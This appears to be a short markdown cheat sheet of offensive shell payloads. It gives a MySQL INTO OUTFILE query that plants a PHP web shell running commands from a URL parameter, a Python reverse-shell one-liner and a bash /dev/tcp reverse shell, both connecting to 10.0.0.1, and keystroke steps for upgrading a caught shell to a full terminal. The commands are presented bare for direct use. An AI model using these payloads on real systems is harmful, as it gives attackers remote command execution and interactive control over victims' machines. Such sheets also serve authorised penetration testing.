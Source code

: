 # Shells

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```

## Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse shell bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```